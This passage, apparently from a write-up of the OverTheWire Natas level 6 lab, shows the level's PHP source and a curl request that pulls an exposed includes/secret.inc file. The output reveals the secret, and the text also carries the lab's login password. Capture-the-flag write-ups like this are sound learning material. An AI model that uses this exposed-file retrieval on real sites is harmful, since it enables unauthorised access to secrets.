 ```
&lt;html&gt;<br />&lt;head&gt;<br />&lt;!--&nbsp;This&nbsp;stuff&nbsp;in&nbsp;the&nbsp;header&nbsp;has&nbsp;nothing&nbsp;to&nbsp;do&nbsp;with&nbsp;the&nbsp;level&nbsp;--&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;type="text/css"&nbsp;href="http://natas.labs.overthewire.org/css/level.css"&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/jquery-ui.css"&nbsp;/&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/wechall.css"&nbsp;/&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-ui.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src=http://natas.labs.overthewire.org/js/wechall-data.js&gt;&lt;/script&gt;&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/wechall.js"&gt;&lt;/script&gt;<br />&lt;script&gt;var&nbsp;wechallinfo&nbsp;=&nbsp;{&nbsp;"level":&nbsp;"natas6",&nbsp;"pass":&nbsp;"&lt;censored&gt;"&nbsp;};&lt;/script&gt;&lt;/head&gt;<br />&lt;body&gt;<br />&lt;h1&gt;natas6&lt;/h1&gt;<br />&lt;div&nbsp;id="content"&gt;<br /><br />&lt;?<br /><br />include&nbsp;"includes/secret.inc";<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;if(array_key_exists("submit",&nbsp;$_POST))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if($secret&nbsp;==&nbsp;$_POST['secret'])&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;print&nbsp;"Access&nbsp;granted.&nbsp;The&nbsp;password&nbsp;for&nbsp;natas7&nbsp;is&nbsp;&lt;censored&gt;";<br />&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;print&nbsp;"Wrong&nbsp;secret";<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br />?&gt;<br /><br />&lt;form&nbsp;method=post&gt;<br />Input&nbsp;secret:&nbsp;&lt;input&nbsp;name=secret&gt;&lt;br&gt;<br />&lt;input&nbsp;type=submit&nbsp;name=submit&gt;<br />&lt;/form&gt;<br /><br />&lt;div&nbsp;id="viewsource"&gt;&lt;a&nbsp;href="index-source.html"&gt;View&nbsp;sourcecode&lt;/a&gt;&lt;/div&gt;<br />&lt;/div&gt;<br />&lt;/body&gt;<br />&lt;/html&gt;<br /></span>
* Connection #0 to host natas6.natas.labs.overthewire.org left intact
</code>%  
```
fun times, its minified c:

we can see that it gets a "secrets" file from includes/secret.inc, so lets grab that.

```
❯ curl http://natas6.natas.labs.overthewire.org/includes/secret.inc -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 -v
*   Trying 176.9.9.172...
* TCP_NODELAY set
* Connected to natas6.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas6'
> GET /includes/secret.inc HTTP/1.1
> Host: natas6.natas.labs.overthewire.org
> Authorization: Basic bmF0YXM2OmFHb1k0cTJEYzZNZ0RxNG9MNFl0b0t0eUFnOVBlSGEx
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sat, 03 Nov 2018 11:54:18 GMT
< Server: Apache/2.4.10 (Debian)
< Last-Modified: Thu, 15 Dec 2016 21:07:45 GMT
< ETag: "27-543b8d8450a40"
< Accept-Ranges: bytes
< Content-Length: 39
< 
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
* Connection #0 to host natas6.natas.labs.overthewire.org left intact
```
